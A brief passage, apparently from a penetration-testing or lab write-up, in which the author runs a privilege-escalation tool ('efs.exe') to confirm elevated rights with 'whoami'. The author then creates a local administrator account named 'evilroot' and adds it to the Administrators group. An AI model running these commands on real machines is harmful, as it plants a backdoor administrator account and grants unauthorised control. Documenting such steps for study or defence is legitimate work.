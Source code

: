 Everything worked as expected — I verified it by executing the command: `.\efs.exe "whoami"`

![whoami](/images/stealth/7potatoworks.jpg)

I proceeded to create a new local administrator account by executing:
`.\efs.exe "net user evilroot Password123! /add"`. Then, I added the newly created user to the Administrators group:
`.\efs.exe "net localgroup Administrators evilroot /add"`
